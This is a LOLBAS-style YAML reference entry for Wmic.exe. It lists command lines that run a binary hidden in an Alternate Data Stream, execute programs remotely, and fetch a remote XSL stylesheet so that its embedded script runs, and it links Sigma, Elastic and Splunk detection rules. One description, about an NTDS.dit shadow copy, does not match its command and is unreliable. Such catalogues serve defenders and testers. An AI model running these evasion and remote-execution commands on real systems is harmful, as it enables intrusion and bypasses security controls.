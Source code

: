 ```yaml
---
Name: Wmic.exe
Description: The WMI command-line (WMIC) utility provides a command-line interface for WMI
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: wmic.exe process call create "c:\ads\file.txt:program.exe"
    Description: Execute a .EXE file stored as an Alternate Data Stream (ADS)
    Usecase: Execute binary file hidden in Alternate data streams to evade defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: wmic.exe process call create calc
    Description: Execute calc from wmic
    Usecase: Execute binary from wmic to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: wmic.exe /node:"192.168.0.1" process call create "evil.exe"
    Description: Execute evil.exe on the remote system.
    Usecase: Execute binary on a remote system
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: wmic.exe process get brief /format:"https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSBinaries/Payload/Wmic_calc.xsl"
    Description: Create a volume shadow copy of NTDS.dit that can be copied.
    Usecase: Execute binary on remote system
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: wmic.exe process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"
    Description: Executes JScript or VBScript embedded in the target remote XSL stylsheet.
    Usecase: Execute script from remote system
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\wbem\wmic.exe
  - Path: C:\Windows\SysWOW64\wbem\wmic.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/8beb70e970b814d0ab60625206ea0d8a21a9bff8/rules/windows/image_load/sysmon_wmic_remote_xsl_scripting_dlls.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/ff0f1a0222b5100120ae3e43df18593f904c69c0/rules/windows/process_creation/win_xsl_script_processing.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_bypass_squiblytwo.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c90e31275d2f98b21e55df8a46d0678cfca458d6/rules/windows/process_creation/win_susp_wmic_eventconsumer_create.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_suspicious_wmi_script.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/persistence_via_windows_management_instrumentation_event_subscription.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Splunk: https://github.com/splunk/security_content/blob/961a81d4a5cb5c5febec4894d6d812497171a85c/detections/endpoint/xsl_script_execution_with_wmic.yml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/remote_wmi_command_attempt.yml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/remote_process_instantiation_via_wmi.yml
  - Splunk: https://github.com/splunk/security_content/blob/08ed88bd88259c03c771c30170d2934ed0a8f878/detections/endpoint/process_execution_via_wmi.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: Wmic retrieving scripts from remote system/Internet location
  - IOC: DotNet CLR libraries loaded into wmic.exe
  - IOC: DotNet CLR Usage Log - wmic.exe.log
Resources:
  - Link: https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
  - Link: https://subt0x11.blogspot.no/2018/04/wmicexe-whitelisting-bypass-hacking.html
  - Link: https://twitter.com/subTee/status/986234811944648707
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

